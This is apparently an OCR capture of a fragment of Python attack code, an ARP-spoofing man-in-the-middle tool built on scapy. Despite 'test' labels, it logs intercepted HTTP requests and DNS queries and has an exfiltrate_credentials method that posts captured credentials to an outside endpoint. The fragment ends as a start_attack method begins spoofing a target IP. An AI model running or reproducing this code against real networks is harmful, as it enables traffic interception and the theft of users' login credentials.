 ```python
                'method': packet[scapy.HTTPRequest].Method.decode(),
                'attack_type': 'arp_spoofing_mitm'
            }
            
            response = requests.post(
                self.target_site,
                json=intercept_data,
                timeout=5
            )
            
            print(f"✅ Traffic interception logged: HTTP {response.status_code}")
            
        except Exception as e:
            print(f"❌ Traffic modification test failed: {e}")
    
    def test_dns_manipulation(self, packet):
        """Test DNS response manipulation"""
        try:
            # Log DNS interception to target site
            dns_data = {
                'timestamp': time.time(),
                'source_ip': packet[scapy.IP].src,
                'intercepted_query': packet[scapy.DNSQR].qname.decode(),
                'attack_type': 'dns_interception'
            }
            
            response = requests.post(
                self.target_site,
                json=dns_data,
                timeout=5
            )
            
            print(f"✅ DNS interception logged: HTTP {response.status_code}")
            
        except Exception as e:
            print(f"❌ DNS manipulation test failed: {e}")
    
    def exfiltrate_credentials(self, credential_data):
        """Test credential exfiltration"""
        try:
            # Send captured credentials to target site for testing
            exfil_data = {
                'timestamp': time.time(),
                'credentials': credential_data[:200],  # Limit data size
                'attack_type': 'credential_harvest',
                'source': 'arp_spoofing_mitm'
            }
            
            response = requests.post(
                self.target_site,
                json=exfil_data,
                timeout=5
            )
            
            print(f"✅ Credential exfiltration test: HTTP {response.status_code}")
            
        except Exception as e:
            print(f"❌ Credential exfiltration failed: {e}")
    
    def start_attack(self):
        """Initialize and start the ARP spoofing attack"""
        print(f"🎯 Starting ARP spoofing attack")
        print(f"   Target: {self.target_ip}")
```